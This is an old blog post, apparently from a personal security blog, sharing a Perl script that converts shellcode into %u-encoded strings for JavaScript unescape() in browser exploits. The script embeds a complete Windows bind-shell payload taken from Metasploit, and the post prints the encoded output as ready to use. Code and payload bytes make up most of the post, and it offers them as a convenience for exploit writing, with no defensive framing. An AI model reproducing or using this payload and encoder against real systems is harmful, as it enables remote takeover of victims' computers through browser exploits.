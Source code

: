 ```yaml
---
id: 16
title: JSUnescape.pl
date: 2006-03-30T16:13:00+00:00
author: Devin Ertel
layout: post
guid: http://www.infointox.net/?p=16
permalink: /?p=16
blogger_blog:
  - informationintoxication.blogspot.com
blogger_author:
  - Devinhttp://www.blogger.com/profile/15793900111446118223noreply@blogger.com
blogger_permalink:
  - /2006/03/jsunescapepl_30.html
categories:
  - Uncategorized
tags:
  - Perl
  - shellcode
---
```

With all of the recent browser exploits, I wanted an easy way to encode my shellcode. Now this is not polished by any means and I took the function that encodes it(so don&#8217;t give me any credit). It was actually developed by Aviv Raff and H D Moore from the Mozilla_Compareto exploit.

Some improvements I would like to do is make the encoded shellcode output a little cleaner and I would like to read the shellcode from a file. As it stands now you have to copy your shellcode into the perl script as a var.

So to do this, write your shellcode or just go to
  
<http://metasploit.com:55555/PAYLOADS>
  
and pick the payload you would want to use. paste into the perl script. (below example is a w32_Bind payload)

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="perl" style="font-family:monospace;"><span style="color: #666666; font-style: italic;">#! /usr/local/bin/perl</span>
<span style="color: #000000; font-weight: bold;">use</span> strict<span style="color: #339933;">;</span>
&nbsp;
<span style="color: #666666; font-style: italic;">#paste your shellcode below</span>
<span style="color: #b1b100;">my</span> <span style="color: #0000ff;">$shellcode</span><span style="color: #339933;">=</span>
“<span style="color: #0000ff;">\x2b</span><span style="color: #0000ff;">\xc9</span><span style="color: #0000ff;">\x83</span><span style="color: #0000ff;">\xe9</span><span style="color: #0000ff;">\xb8</span><span style="color: #0000ff;">\xd9</span><span style="color: #0000ff;">\xee</span><span style="color: #0000ff;">\xd9</span><span style="color: #0000ff;">\x74</span><span style="color: #0000ff;">\x24</span><span style="color: #0000ff;">\xf4</span><span style="color: #0000ff;">\x5b</span><span style="color: #0000ff;">\x81</span><span style="color: #0000ff;">\x73</span><span style="color: #0000ff;">\x13</span><span style="color: #0000ff;">\x7f</span>”<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x3c</span><span style="color: #0000ff;">\x79</span><span style="color: #0000ff;">\x76</span><span style="color: #0000ff;">\x83</span><span style="color: #0000ff;">\xeb</span><span style="color: #0000ff;">\xfc</span><span style="color: #0000ff;">\xe2</span><span style="color: #0000ff;">\xf4</span><span style="color: #0000ff;">\x97</span><span style="color: #0000ff;">\x6a</span><span style="color: #0000ff;">\x79</span><span style="color: #0000ff;">\x76</span><span style="color: #0000ff;">\x7f</span><span style="color: #0000ff;">\x6f</span><span style="color: #0000ff;">\x2c</span><span style="color: #0000ff;">\x20</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x28</span><span style="color: #0000ff;">\xb7</span><span style="color: #0000ff;">\x15</span><span style="color: #0000ff;">\x52</span><span style="color: #0000ff;">\x67</span><span style="color: #0000ff;">\xb7</span><span style="color: #0000ff;">\x3c</span><span style="color: #0000ff;">\x4a</span><span style="color: #0000ff;">\xf4</span><span style="color: #0000ff;">\x68</span><span style="color: #0000ff;">\x7c</span><span style="color: #0000ff;">\x0e</span><span style="color: #0000ff;">\x7e</span><span style="color: #0000ff;">\xd6</span><span style="color: #0000ff;">\xf2</span><span style="color: #0000ff;">\x3c</span>”<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x67</span><span style="color: #0000ff;">\xb7</span><span style="color: #0000ff;">\x23</span><span style="color: #0000ff;">\x56</span><span style="color: #0000ff;">\x7e</span><span style="color: #0000ff;">\xd7</span><span style="color: #0000ff;">\x9a</span><span style="color: #0000ff;">\x44</span><span style="color: #0000ff;">\x36</span><span style="color: #0000ff;">\xb7</span><span style="color: #0000ff;">\x4d</span><span style="color: #0000ff;">\xfd</span><span style="color: #0000ff;">\x7e</span><span style="color: #0000ff;">\xd2</span><span style="color: #0000ff;">\x48</span><span style="color: #0000ff;">\x89</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x83</span><span style="color: #0000ff;">\x0d</span><span style="color: #0000ff;">\xb9</span><span style="color: #0000ff;">\xda</span><span style="color: #0000ff;">\x47</span><span style="color: #0000ff;">\xdc</span><span style="color: #0000ff;">\x0d</span><span style="color: #0000ff;">\x71</span><span style="color: #0000ff;">\xbe</span><span style="color: #0000ff;">\xf3</span><span style="color: #0000ff;">\x74</span><span style="color: #0000ff;">\x77</span><span style="color: #0000ff;">\xb8</span><span style="color: #0000ff;">\xd7</span><span style="color: #0000ff;">\x8b</span><span style="color: #0000ff;">\x4d</span>”<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x03</span><span style="color: #0000ff;">\x18</span><span style="color: #0000ff;">\x6d</span><span style="color: #0000ff;">\x03</span><span style="color: #0000ff;">\x9e</span><span style="color: #0000ff;">\xb7</span><span style="color: #0000ff;">\x23</span><span style="color: #0000ff;">\x52</span><span style="color: #0000ff;">\x7e</span><span style="color: #0000ff;">\xd7</span><span style="color: #0000ff;">\x1f</span><span style="color: #0000ff;">\xfd</span><span style="color: #0000ff;">\x73</span><span style="color: #0000ff;">\x77</span><span style="color: #0000ff;">\xf2</span><span style="color: #0000ff;">\x2c</span>”<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x63</span><span style="color: #0000ff;">\x3d</span><span style="color: #0000ff;">\x92</span><span style="color: #0000ff;">\xfd</span><span style="color: #0000ff;">\x7b</span><span style="color: #0000ff;">\xb7</span><span style="color: #0000ff;">\x78</span><span style="color: #0000ff;">\x9e</span><span style="color: #0000ff;">\x94</span><span style="color: #0000ff;">\x3e</span><span style="color: #0000ff;">\x48</span><span style="color: #0000ff;">\xb6</span><span style="color: #0000ff;">\x20</span><span style="color: #0000ff;">\x62</span><span style="color: #0000ff;">\x24</span><span style="color: #0000ff;">\x2d</span>”<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\xbd</span><span style="color: #0000ff;">\x34</span><span style="color: #0000ff;">\x79</span><span style="color: #0000ff;">\x28</span><span style="color: #0000ff;">\x15</span><span style="color: #0000ff;">\x0c</span><span style="color: #0000ff;">\x20</span><span style="color: #0000ff;">\x12</span><span style="color: #0000ff;">\xf4</span><span style="color: #0000ff;">\x25</span><span style="color: #0000ff;">\xf2</span><span style="color: #0000ff;">\x2d</span><span style="color: #0000ff;">\x73</span><span style="color: #0000ff;">\xb7</span><span style="color: #0000ff;">\x22</span><span style="color: #0000ff;">\x6a</span>”<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\xf4</span><span style="color: #0000ff;">\x27</span><span style="color: #0000ff;">\xf2</span><span style="color: #0000ff;">\x2d</span><span style="color: #0000ff;">\x77</span><span style="color: #0000ff;">\x6f</span><span style="color: #0000ff;">\x11</span><span style="color: #0000ff;">\xf8</span><span style="color: #0000ff;">\x31</span><span style="color: #0000ff;">\x32</span><span style="color: #0000ff;">\x95</span><span style="color: #0000ff;">\x89</span><span style="color: #0000ff;">\xa9</span><span style="color: #0000ff;">\xb5</span><span style="color: #0000ff;">\xbe</span><span style="color: #0000ff;">\xf7</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x93</span><span style="color: #0000ff;">\x3c</span><span style="color: #0000ff;">\x78</span><span style="color: #0000ff;">\x76</span><span style="color: #0000ff;">\x7f</span><span style="color: #0000ff;">\x6b</span><span style="color: #0000ff;">\x2f</span><span style="color: #0000ff;">\x25</span><span style="color: #0000ff;">\xf6</span><span style="color: #0000ff;">\xd9</span><span style="color: #0000ff;">\x91</span><span style="color: #0000ff;">\x51</span><span style="color: #0000ff;">\x7f</span><span style="color: #0000ff;">\x3c</span><span style="color: #0000ff;">\x79</span><span style="color: #0000ff;">\xe6</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x7e</span><span style="color: #0000ff;">\x3c</span><span style="color: #0000ff;">\x79</span><span style="color: #0000ff;">\xc0</span><span style="color: #0000ff;">\x66</span><span style="color: #0000ff;">\x24</span><span style="color: #0000ff;">\x9e</span><span style="color: #0000ff;">\xd2</span><span style="color: #0000ff;">\x66</span><span style="color: #0000ff;">\x4c</span><span style="color: #0000ff;">\x90</span><span style="color: #0000ff;">\x93</span><span style="color: #0000ff;">\x36</span><span style="color: #0000ff;">\xba</span><span style="color: #0000ff;">\x30</span><span style="color: #0000ff;">\xd2</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x65</span><span style="color: #0000ff;">\x4c</span><span style="color: #0000ff;">\xbe</span><span style="color: #0000ff;">\xd2</span><span style="color: #0000ff;">\xd2</span><span style="color: #0000ff;">\x12</span><span style="color: #0000ff;">\x90</span><span style="color: #0000ff;">\xaf</span><span style="color: #0000ff;">\x76</span><span style="color: #0000ff;">\xc9</span><span style="color: #0000ff;">\xd4</span><span style="color: #0000ff;">\xbd</span><span style="color: #0000ff;">\x92</span><span style="color: #0000ff;">\xc0</span><span style="color: #0000ff;">\x42</span><span style="color: #0000ff;">\x21</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x2c</span><span style="color: #0000ff;">\x0e</span><span style="color: #0000ff;">\x26</span><span style="color: #0000ff;">\x45</span><span style="color: #0000ff;">\x4d</span><span style="color: #0000ff;">\x3c</span><span style="color: #0000ff;">\x22</span><span style="color: #0000ff;">\xfb</span><span style="color: #0000ff;">\x34</span><span style="color: #0000ff;">\x1c</span><span style="color: #0000ff;">\x28</span><span style="color: #0000ff;">\x89</span><span style="color: #0000ff;">\xa8</span><span style="color: #0000ff;">\xb5</span><span style="color: #0000ff;">\xa6</span><span style="color: #0000ff;">\xff</span>”<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\xbc</span><span style="color: #0000ff;">\xb1</span><span style="color: #0000ff;">\x0c</span><span style="color: #0000ff;">\x62</span><span style="color: #0000ff;">\x15</span><span style="color: #0000ff;">\x3b</span><span style="color: #0000ff;">\x20</span><span style="color: #0000ff;">\x27</span><span style="color: #0000ff;">\x2c</span><span style="color: #0000ff;">\xc3</span><span style="color: #0000ff;">\x4d</span><span style="color: #0000ff;">\xf9</span><span style="color: #0000ff;">\x80</span><span style="color: #0000ff;">\x69</span><span style="color: #0000ff;">\x7d</span><span style="color: #0000ff;">\x2f</span>”<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\xf6</span><span style="color: #0000ff;">\x38</span><span style="color: #0000ff;">\xf7</span><span style="color: #0000ff;">\x94</span><span style="color: #0000ff;">\x8d</span><span style="color: #0000ff;">\x17</span><span style="color: #0000ff;">\x5e</span><span style="color: #0000ff;">\x22</span><span style="color: #0000ff;">\x80</span><span style="color: #0000ff;">\x0b</span><span style="color: #0000ff;">\x86</span><span style="color: #0000ff;">\x23</span><span style="color: #0000ff;">\x4f</span><span style="color: #0000ff;">\x0d</span><span style="color: #0000ff;">\xb9</span><span style="color: #0000ff;">\x26</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x2f</span><span style="color: #0000ff;">\x6c</span><span style="color: #0000ff;">\x29</span><span style="color: #0000ff;">\x36</span><span style="color: #0000ff;">\x2f</span><span style="color: #0000ff;">\x7c</span><span style="color: #0000ff;">\x29</span><span style="color: #0000ff;">\x89</span><span style="color: #0000ff;">\x2a</span><span style="color: #0000ff;">\x10</span><span style="color: #0000ff;">\xf0</span><span style="color: #0000ff;">\xb1</span><span style="color: #0000ff;">\x4e</span><span style="color: #0000ff;">\xe7</span><span style="color: #0000ff;">\x2a</span><span style="color: #0000ff;">\x25</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x17</span><span style="color: #0000ff;">\x3e</span><span style="color: #0000ff;">\x79</span><span style="color: #0000ff;">\x67</span><span style="color: #0000ff;">\x23</span><span style="color: #0000ff;">\xb5</span><span style="color: #0000ff;">\x99</span><span style="color: #0000ff;">\x1c</span><span style="color: #0000ff;">\x6f</span><span style="color: #0000ff;">\x6c</span><span style="color: #0000ff;">\x2e</span><span style="color: #0000ff;">\x89</span><span style="color: #0000ff;">\x2a</span><span style="color: #0000ff;">\x18</span><span style="color: #0000ff;">\x2a</span><span style="color: #0000ff;">\x21</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x80</span><span style="color: #0000ff;">\x69</span><span style="color: #0000ff;">\x51</span><span style="color: #0000ff;">\x25</span><span style="color: #0000ff;">\x2b</span><span style="color: #0000ff;">\x6b</span><span style="color: #0000ff;">\x86</span><span style="color: #0000ff;">\x23</span><span style="color: #0000ff;">\x5f</span><span style="color: #0000ff;">\xb5</span><span style="color: #0000ff;">\xbe</span><span style="color: #0000ff;">\xf7</span><span style="color: #0000ff;">\x93</span><span style="color: #0000ff;">\x3c</span><span style="color: #0000ff;">\x69</span><span style="color: #0000ff;">\x76</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x7f</span><span style="color: #0000ff;">\xb5</span><span style="color: #0000ff;">\x9a</span><span style="color: #0000ff;">\x1c</span><span style="color: #0000ff;">\x7f</span><span style="color: #0000ff;">\x54</span><span style="color: #0000ff;">\x79</span><span style="color: #0000ff;">\x66</span><span style="color: #0000ff;">\x7f</span><span style="color: #0000ff;">\x3c</span><span style="color: #0000ff;">\x2a</span><span style="color: #0000ff;">\x21</span><span style="color: #0000ff;">\x80</span><span style="color: #0000ff;">\x69</span><span style="color: #0000ff;">\x61</span><span style="color: #0000ff;">\xf7</span>″<span style="color: #339933;">.</span>
“<span style="color: #0000ff;">\x93</span><span style="color: #0000ff;">\x3c</span><span style="color: #0000ff;">\x7d</span><span style="color: #0000ff;">\x76</span><span style="color: #0000ff;">\x7f</span><span style="color: #0000ff;">\xc3</span><span style="color: #0000ff;">\xaa</span><span style="color: #0000ff;">\x76</span>″<span style="color: #339933;">;</span>
&nbsp;
JSUnescape<span style="color: #009900;">&#40;</span><span style="color: #0000ff;">$shellcode</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
&nbsp;
<span style="color: #000000; font-weight: bold;">sub</span> JSUnescape <span style="color: #666666; font-style: italic;">#Taken from Mozilla_Compareto by Aviv Raff and H D Moore</span>
<span style="color: #009900;">&#123;</span>
<span style="color: #b1b100;">my</span> <span style="color: #0000ff;">$data</span> <span style="color: #339933;">=</span> <span style="color: #000066;">shift</span><span style="color: #339933;">;</span>
<span style="color: #b1b100;">my</span> <span style="color: #0000ff;">$code</span> <span style="color: #339933;">=</span> ”<span style="color: #339933;">;</span>
&nbsp;
<span style="color: #666666; font-style: italic;"># Encode the shellcode via %u sequences for JS’s unescape() function</span>
<span style="color: #b1b100;">my</span> <span style="color: #0000ff;">$idx</span> <span style="color: #339933;">=</span> <span style="color: #cc66cc;"></span><span style="color: #339933;">;</span>
<span style="color: #b1b100;">while</span> <span style="color: #009900;">&#40;</span><span style="color: #0000ff;">$idx</span> <span style="color: #339933;">&</span><span style="color: #b1b100;">lt</span><span style="color: #339933;">;</span> <span style="color: #000066;">length</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">$data</span><span style="color: #009900;">&#41;</span> <span style="color: #339933;">-</span> <span style="color: #cc66cc;">1</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
<span style="color: #b1b100;">my</span> <span style="color: #0000ff;">$c1</span> <span style="color: #339933;">=</span> <span style="color: #000066;">ord</span><span style="color: #009900;">&#40;</span><span style="color: #000066;">substr</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">$data</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">$idx</span><span style="color: #339933;">,</span> <span style="color: #cc66cc;">1</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #b1b100;">my</span> <span style="color: #0000ff;">$c2</span> <span style="color: #339933;">=</span> <span style="color: #000066;">ord</span><span style="color: #009900;">&#40;</span><span style="color: #000066;">substr</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">$data</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">$idx</span><span style="color: #339933;">+</span><span style="color: #cc66cc;">1</span><span style="color: #339933;">,</span> <span style="color: #cc66cc;">1</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #0000ff;">$code</span> <span style="color: #339933;">.=</span> <span style="color: #000066;">sprintf</span><span style="color: #009900;">&#40;</span>‘<span style="color: #339933;">%</span><span style="color: #0000ff;">%u</span><span style="color: #339933;">%.</span>2x<span style="color: #339933;">%.</span>2x’<span style="color: #339933;">,</span> <span style="color: #0000ff;">$c2</span><span style="color: #339933;">,</span> <span style="color: #0000ff;">$c1</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
<span style="color: #0000ff;">$idx</span> <span style="color: #339933;">+=</span> <span style="color: #cc66cc;">2</span><span style="color: #339933;">;</span>
<span style="color: #009900;">&#125;</span>
&nbsp;
<span style="color: #000066;">print</span> “<span style="color: #0000ff;">\n</span>” <span style="color: #339933;">.</span> <span style="color: #0000ff;">$code</span> <span style="color: #339933;">.</span> “<span style="color: #0000ff;">\n</span>”<span style="color: #339933;">;</span>
<span style="color: #009900;">&#125;</span></pre>
      </td>
    </tr>
  </table>
</div>

Output should look like the following. All ready for unescape()!

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="perl" style="font-family:monospace;">uc92b<span style="color: #0000ff;">%ue983</span><span style="color: #0000ff;">%ud9b8</span><span style="color: #0000ff;">%ud9ee</span><span style="color: #0000ff;">%u2474</span><span style="color: #0000ff;">%u5bf4</span><span style="color: #0000ff;">%u7381</span><span style="color: #0000ff;">%u7f13</span><span style="color: #0000ff;">%u793c</span><span style="color: #0000ff;">%u8376</span><span style="color: #0000ff;">%ufceb</span><span style="color: #0000ff;">%uf4e2</span><span style="color: #0000ff;">%u6a97</span><span style="color: #0000ff;">%u7679</span><span style="color: #0000ff;">%u6f7f</span>
<span style="color: #0000ff;">%u202c</span><span style="color: #0000ff;">%ub728</span><span style="color: #0000ff;">%u5215</span><span style="color: #0000ff;">%ub767</span><span style="color: #0000ff;">%u4a3c</span><span style="color: #0000ff;">%u68f4</span><span style="color: #0000ff;">%u0e7c</span><span style="color: #0000ff;">%ud67e</span><span style="color: #0000ff;">%u3cf2</span><span style="color: #0000ff;">%ub767</span><span style="color: #0000ff;">%u5623</span><span style="color: #0000ff;">%ud77e</span><span style="color: #0000ff;">%u449a</span><span style="color: #0000ff;">%ub736</span><span style="color: #0000ff;">%ufd4d</span>
<span style="color: #0000ff;">%ud27e</span><span style="color: #0000ff;">%u8948</span><span style="color: #0000ff;">%u0d83</span><span style="color: #0000ff;">%udab9</span><span style="color: #0000ff;">%udc47</span><span style="color: #0000ff;">%u710d</span><span style="color: #0000ff;">%uf3be</span><span style="color: #0000ff;">%u7774</span><span style="color: #0000ff;">%ud7b8</span><span style="color: #0000ff;">%u4d8b</span><span style="color: #0000ff;">%u1803</span><span style="color: #0000ff;">%u036d</span><span style="color: #0000ff;">%ub79e</span><span style="color: #0000ff;">%u5223</span><span style="color: #0000ff;">%ud77e</span>
<span style="color: #0000ff;">%ufd1f</span><span style="color: #0000ff;">%u7773</span><span style="color: #0000ff;">%u2cf2</span><span style="color: #0000ff;">%u3d63</span><span style="color: #0000ff;">%ufd92</span><span style="color: #0000ff;">%ub77b</span><span style="color: #0000ff;">%u9e78</span><span style="color: #0000ff;">%u3e94</span><span style="color: #0000ff;">%ub648</span><span style="color: #0000ff;">%u6220</span><span style="color: #0000ff;">%u2d24</span><span style="color: #0000ff;">%u34bd</span><span style="color: #0000ff;">%u2879</span><span style="color: #0000ff;">%u0c15</span><span style="color: #0000ff;">%u1220</span>
<span style="color: #0000ff;">%u25f4</span><span style="color: #0000ff;">%u2df2</span><span style="color: #0000ff;">%ub773</span><span style="color: #0000ff;">%u6a22</span><span style="color: #0000ff;">%u27f4</span><span style="color: #0000ff;">%u2df2</span><span style="color: #0000ff;">%u6f77</span><span style="color: #0000ff;">%uf811</span><span style="color: #0000ff;">%u3231</span><span style="color: #0000ff;">%u8995</span><span style="color: #0000ff;">%ub5a9</span><span style="color: #0000ff;">%uf7be</span><span style="color: #0000ff;">%u3c93</span><span style="color: #0000ff;">%u7678</span><span style="color: #0000ff;">%u6b7f</span>
<span style="color: #0000ff;">%u252f</span><span style="color: #0000ff;">%ud9f6</span><span style="color: #0000ff;">%u5191</span><span style="color: #0000ff;">%u3c7f</span><span style="color: #0000ff;">%ue679</span><span style="color: #0000ff;">%u3c7e</span><span style="color: #0000ff;">%uc079</span><span style="color: #0000ff;">%u2466</span><span style="color: #0000ff;">%ud29e</span><span style="color: #0000ff;">%u4c66</span><span style="color: #0000ff;">%u9390</span><span style="color: #0000ff;">%uba36</span><span style="color: #0000ff;">%ud230</span><span style="color: #0000ff;">%u4c65</span><span style="color: #0000ff;">%ud2be</span>
<span style="color: #0000ff;">%u12d2</span><span style="color: #0000ff;">%uaf90</span><span style="color: #0000ff;">%uc976</span><span style="color: #0000ff;">%ubdd4</span><span style="color: #0000ff;">%uc092</span><span style="color: #0000ff;">%u2142</span><span style="color: #0000ff;">%u0e2c</span><span style="color: #0000ff;">%u4526</span><span style="color: #0000ff;">%u3c4d</span><span style="color: #0000ff;">%ufb22</span><span style="color: #0000ff;">%u1c34</span><span style="color: #0000ff;">%u8928</span><span style="color: #0000ff;">%ub5a8</span><span style="color: #0000ff;">%uffa6</span><span style="color: #0000ff;">%ub1bc</span>
<span style="color: #0000ff;">%u620c</span><span style="color: #0000ff;">%u3b15</span><span style="color: #0000ff;">%u2720</span><span style="color: #0000ff;">%uc32c</span><span style="color: #0000ff;">%uf94d</span><span style="color: #0000ff;">%u6980</span><span style="color: #0000ff;">%u2f7d</span><span style="color: #0000ff;">%u38f6</span><span style="color: #0000ff;">%u94f7</span><span style="color: #0000ff;">%u178d</span><span style="color: #0000ff;">%u225e</span><span style="color: #0000ff;">%u0b80</span><span style="color: #0000ff;">%u2386</span><span style="color: #0000ff;">%u0d4f</span><span style="color: #0000ff;">%u26b9</span>
<span style="color: #0000ff;">%u6c2f</span><span style="color: #0000ff;">%u3629</span><span style="color: #0000ff;">%u7c2f</span><span style="color: #0000ff;">%u8929</span><span style="color: #0000ff;">%u102a</span><span style="color: #0000ff;">%ub1f0</span><span style="color: #0000ff;">%ue74e</span><span style="color: #0000ff;">%u252a</span><span style="color: #0000ff;">%u3e17</span><span style="color: #0000ff;">%u6779</span><span style="color: #0000ff;">%ub523</span><span style="color: #0000ff;">%u1c99</span><span style="color: #0000ff;">%u6c6f</span><span style="color: #0000ff;">%u892e</span><span style="color: #0000ff;">%u182a</span>
<span style="color: #0000ff;">%u212a</span><span style="color: #0000ff;">%u6980</span><span style="color: #0000ff;">%u2551</span><span style="color: #0000ff;">%u6b2b</span><span style="color: #0000ff;">%u2386</span><span style="color: #0000ff;">%ub55f</span><span style="color: #0000ff;">%uf7be</span><span style="color: #0000ff;">%u3c93</span><span style="color: #0000ff;">%u7669</span><span style="color: #0000ff;">%ub57f</span><span style="color: #0000ff;">%u1c9a</span><span style="color: #0000ff;">%u547f</span><span style="color: #0000ff;">%u6679</span><span style="color: #0000ff;">%u3c7f</span><span style="color: #0000ff;">%u212a</span>
<span style="color: #0000ff;">%u6980</span><span style="color: #0000ff;">%uf761</span><span style="color: #0000ff;">%u3c93</span><span style="color: #0000ff;">%u767d</span><span style="color: #0000ff;">%uc37f</span><span style="color: #0000ff;">%u76aa</span></pre>
      </td>
    </tr>
  </table>
</div>